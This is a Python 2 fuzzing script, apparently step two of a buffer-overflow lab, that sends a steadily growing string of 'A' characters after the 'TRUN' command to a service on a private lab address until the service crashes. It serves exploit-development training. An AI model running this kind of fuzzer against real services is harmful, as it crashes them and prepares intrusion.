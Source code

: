 2-Fuzzing

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
#!/usr/bin/python
import sys, socket
from time import sleep

buffer = "A" * 100

while True:
	try:
		s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
		s.connect(("192.168.253.129",9999))

		s.send(('TRUN /.:/' + buffer))
		s.close()
		buffer = buffer + "A" * 100

	except:
		print "Fuzzing crashed at %s bytes" % str(len(buffer))
		sys.exit()

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
